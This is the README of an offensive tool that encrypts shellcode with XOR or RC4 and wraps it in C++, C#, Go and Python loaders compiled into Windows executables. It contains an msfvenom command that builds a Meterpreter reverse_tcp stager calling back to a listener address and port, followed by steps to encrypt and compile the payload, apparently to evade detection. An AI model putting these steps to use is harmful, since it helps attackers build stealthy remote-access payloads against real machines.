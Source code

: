 Mutlibyte XOR or RC4 encrypted shellcode - Can run in Python3
============
Modify: Ch1ng

The technique uses two kind of code file:

1. The shellcode encoder/encrypter: `shellcode_encoder.py`
2. Various shellcode wrapper, in C++, C#, Binary and Python:
	- `encryptedShellcodeWrapper.cpp` - supports both XOR encryption
	- `encryptedShellcodeWrapper.go` - supports both XOR encryption
	- `encryptedShellcodeWrapper.cs` - supports both XOR and RC4 encryption
	- `encryptedShellcodeWrapper.py` - supports both XOR and RC4 encryption
	- `encryptedShellcodeWrapper.bin` - supports both XOR and RC4 encryption

Installation
----------------------
Installation is straight forward:
* Git clone this repository: `git clone https://github.com/Arno0x/ShellcodeWrapper ShellcodeWrapper`
* cd into the ShellcodeWrapper folder: `cd ShellcodeWrapper`
* Install requirements using `pip install -r requirements.txt`
* Give the execution rights to the main script: `chmod +x shellcode_encoder.py`

Usage
----------------------
First, you need to obtain a usable shellcode from metasploit (*run it from a Kali distribution*), for example:
```
root@kali:~# msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f raw > shellcode.raw
```

In this example, the output is a raw (*unencoded & unencrypted*) reverse_tcp meterpreter stager for x86 platform. You should adapt it to your needs (*payload and parameters*).

Second, run the `shellcode_encoder.py` script along with the desired arguments:
  - raw shellcode filename
  - encryption key
  - encryption type: `xor` or `rc4`
  - desired output: `base64`, `cpp`, `csharp`, `python`, `binary`, `go`

For instance, to xor encrypt the shellcode with the key '*thisismykey*' and get an output code file in C#, C++, Go, Binary and Python:
```
root@kali:~# ./shellcode_encoder.py -cpp -cs -py -bin -go shellcode.raw thisismykey xor
```
This will generate C#, C++, Go, Binary and Python code file in the `result` folder. Those files are ready to use/compile.

Eventually:

1. For the C++ wrapper, compile the C++ code file into a Windows executable: you can create a new VisualStudio project for **Win32 console application** and use the C++ code provided as the main file. Any other method of compilation will require slight adjustment of the C++ code (headers mostly).
2. For the C# wrapper, compile the C# code file into a Windows executable:
	`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:multibyteEncodeShellcode.exe multibyteEncodeShellcode.cs`
3. For the Python wrapper, just run it as a python script, or use PyInstaller to make it a Windows standalone executable
